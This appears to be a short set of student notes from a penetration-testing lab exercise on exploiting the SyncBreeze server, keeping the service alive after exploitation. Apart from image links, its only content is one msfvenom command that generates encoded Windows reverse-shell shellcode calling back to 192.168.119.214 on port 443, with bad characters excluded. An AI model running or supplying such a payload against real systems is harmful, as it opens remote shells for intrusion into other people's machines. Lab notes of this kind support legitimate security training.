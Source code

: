 ![409dec5c92efac016f59fd3835f411db.png](../../_resources/b9326bf718244ffab9a736851b2dc21a.png)


# 11.2.10.1
## 1. Update the exploit so that SyncBreeze still runs after exploitation.

Change the shellcode to use the ExitThread
`msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.214 LPORT=443 EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"`
![6074af374e100285ed4356235bafc7eb.png](../../_resources/aabdd270268942d0932d24206a08128a.png)